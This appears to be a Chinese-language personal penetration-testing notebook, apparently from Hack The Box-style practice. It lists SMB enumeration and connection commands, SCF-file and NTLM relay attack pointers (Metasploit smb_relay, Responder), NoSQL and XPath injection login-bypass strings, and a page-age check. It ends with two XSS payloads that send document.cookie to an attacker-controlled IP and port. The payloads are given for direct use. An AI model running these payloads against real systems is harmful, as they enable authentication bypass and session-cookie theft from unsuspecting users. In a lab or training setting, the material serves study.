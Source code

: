 # 一些不成体系的记录

这里记着一些不成体系的知识点，只是一些随手记录，等待之后再去实验单独开文

### smb枚举&&连接

枚举：smbmap -H 192.168.61.32

    crackmapexec smb 10.10.11.174

连接：smbclient //192.168.61.194/wave

    smbclient -L  //10.10.11.152/

smb共享 scf （shell command file）文件攻击：

[https://www.freebuf.com/articles/web/291348.html](https://www.freebuf.com/articles/web/291348.html)

1.通过NTLM 捕获进行smb攻击

2.利用msf 框架直接攻击获取shell

exploit/windows/smb/smb_relay

3。上传payload获取shell

responder 工具

[https://www.freebuf.com/articles/network/256844.html](https://www.freebuf.com/articles/network/256844.html)

### nosql （也是登录框中偶尔会遇见）

nosqlpayload

绕过：

admin' || '' === '

一般的nosql查询语句

this.username === '${value}' && this.password === '${value}'

this.username === 'admin' || '' === '' && this.password === 'value'

使用nosql 注入的检测工具 nosqli 可以检测是否有nosql注入漏洞（实测好像会误报不行）

### XPATH 注入

[XPATH注入学习 - 先知社区 (ali yun.com)](https://xz.aliyun.com/t/7791)

类似于sql注入中的

**'or '1'='1的paylaod**

Xpath : `']|//*|//*['`  该payload 用于访问xml文档的所有节点

可能的查询语句

`$query="user/username[@name='".$user."']";`

$result=$xml_>xpath(*/heroes/hero[login=‘"."’ and password=‘"."’)；

构造

`user1' or 1=1 or ''='`

组合成

`$query="user/username[@name='user1' or 1=1 or ''='']";`

可以匹配当前节点下所有user

Xpath注入的登录绕过

payload `' or '1'='1' or '`payload （类似于mysql的万能密码）这个是可以不用输入密码的

1'or '1'='1  这个是要输入密码的

### 伪静态页面识别

html页面感觉是伪静态的

 F12，输入

  javascript:alert(document.lastModified)

查看页面最后的修改时间，如果得到的时间和现在时间一致，就是伪静态页面

### XSS获取cookie 的简单payload

```
<img src=x onerror=fetch("http://<your_ip>:port/"+document.cookie);>

<script> document.write(' <img src="http://ip:port/?'+document.cookie+'">');</script>

```
